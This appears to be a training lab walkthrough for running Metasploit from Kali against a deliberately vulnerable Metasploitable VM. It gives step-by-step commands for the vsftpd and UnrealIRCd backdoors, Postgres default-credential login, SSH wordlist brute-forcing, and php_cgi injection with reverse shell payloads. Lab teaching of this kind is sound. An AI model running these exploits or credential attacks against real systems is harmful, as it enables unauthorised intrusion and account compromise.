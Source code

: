 ## Metasploit on the Linux Metasploitable2 

Here are several labs on running Metasploit from Kali on a Metasploitable3 Linux VM. Please make sure when you execute these labs you verify that home environment setup is working properly and you are able to scan the Metasploitable 3 Linux host from Kali using NMAP. Typically when you find the Metasploitable3 system it will have 5 or more open ports. This walkthrough is intended to get your familiar with the Metasploit tool and the options required to successfully execute the exploit.

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search vsftp`

2. Next run the use command with the exploit based on your search. If multiple exploits are found with that specific exploit name you may need to run each one seperately.

Example: `use exploit/unix/ftp/vsftpd_234_backdoor`

3. Next use the `show options` command to show the options required to execute the exploit

In this example the required options for vsftp are the following

RHOSTS = IP Address of host you are attacking `xxx.xxx.xxx.xxx`

RPORT = Port you are attacking which is port = `21`

Payload = In this example we used the following payload = `set payload cmd/unix/interact`

4. Finally to run the exploit you can use the `run` or `exploit` command to execute it.

## Postgres

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search postgres`

2. Now lets use the auxiliary scanner for postgres

`use auxiliary/scanner/postgres/postgres_login`

`set rhosts xxx.xxx.xxx.xxx`

3. Next use the `show options` command to show the options required to execute the exploit

`show options`

4. Set the required options

`set user_as_pass true`

`set username postgres`

`run` or `exploit`

5. The exploit was successful so you can now login to the system as the username and password with the same credentials by using the folloing sytax

`psql -h xxx.xxx.xxx.xxx -U postgres -W`

## Unreal IRC

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search unreal`

2. Now lets use the unreal exploit

`use exploit/unix/irc/unreal_ircd_3281_backdoor`

3. Next use the `show options` command to show the options required to execute the exploit

`show options`

4. Set the required options

`set rhost xxx.xxx.xxx.xxx` (IP of the host you are attacking)

`set rport 6697` (Port number IRC app is listening on)

`set lhost xxx.xxx.xxx.xxx` (IP of the Kail VM you are attacking from)

`set lport 4444` (Port on your system exploit and payload runs to create session)

`set payload cmd/unix/reverse`

`run` or `exploit`

##  SSH

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

2. Now lets use the auxiliary smb exploit

`use auxiliary/scanner/ssh/ssh_login`

3. Next use the `show options` command to show the options required to execute the exploit

`show options`



4. Set the required options

`set rhosts xxx.xxx.xxx.xxx`

`set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt`

`run` or `exploit`

5. Try another password file by using the set USERPASS_FILE command.s

`set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/piata_ssh_userpass.txt`

`run` or `exploit`

## Apache 2.2.8

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search apache`

2. Since we have so many Apache exploits lets use an Auxlilary scanner to search for any potential exploits we can use.

`use auxiliary/scanner/http/dir_listing`

`set rhosts xxx.xxx.xxx.xxx`

`show options`

`run`

3. Since that was successful lets use an Auxlilary directory scanner to search for any potential exploits we can use.

`use auxiliary/scanner/http/dir_scanner`

`show options`

`run`

`set rhosts xxx.xxx.xxx.xxx`

`run`

4. Since that was successful lets use an Auxlilary file scanner to search for any potential exploits we can use.

`use auxiliary/scanner/http/files_dir`

`show options`

`run`

`set rhosts xxx.xxx.xxx.xxx`

`run`

5. Since that was successful lets use the verbose authorization bypass to search for any potential exploits we can use.

`use auxiliary/scanner/http/verb_auth_bypass`

`show options`

`set rhosts xxx.xxx.xxx.xxx`

`run`

6. Since that was unsuccessful lets use the php_cgi injection exploit to search for any potential exploits we can use.

`use exploit/multi/http/php_cgi_arg_injection`

`set rhosts xxx.xxx.xxx.xxx`

`show options`

`set lhost xxx.xxx.xxx.xxx`

`set lport 4444`

`run` or `exploit`
